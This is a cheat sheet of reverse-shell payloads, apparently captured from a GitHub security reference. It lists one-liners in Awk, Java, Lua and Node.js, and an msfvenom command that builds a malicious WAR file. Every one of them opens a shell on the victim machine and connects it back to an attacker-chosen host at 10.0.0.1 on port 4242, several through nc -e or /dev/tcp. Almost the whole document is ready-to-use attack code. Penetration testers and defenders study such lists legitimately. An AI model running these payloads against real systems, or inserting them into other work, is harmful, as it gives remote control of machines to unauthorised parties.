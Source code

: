 ### Awk

    awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

### Java

    r = Runtime.getRuntime()
    p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()

### War

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f war > reverse.war
    strings reverse.war | grep jsp # in order to get the name of the file

### Lua

Linux only

    lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','4242');os.execute('/bin/sh -i <&3 >&3 2>&3');"

Windows and Linux

    lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'

### NodeJS

    (function(){
        var net = require("net"),
            cp = require("child_process"),
            sh = cp.spawn("/bin/sh", []);
        var client = new net.Socket();
        client.connect(4242, "10.0.0.1", function(){
            client.pipe(sh.stdin);
            sh.stdout.pipe(client);
            sh.stderr.pipe(client);
        });
        return /a/; // Prevents the Node.js application form crashing
    })();
    
    
    or
    
    require('child_process').exec('nc -e /bin/sh 10.0.0.1 4242')
    
    or
    
    -var x = global.process.mainModule.require
    -x('child_process').exec('nc 10.0.0.1 4242 -e /bin/bash')
    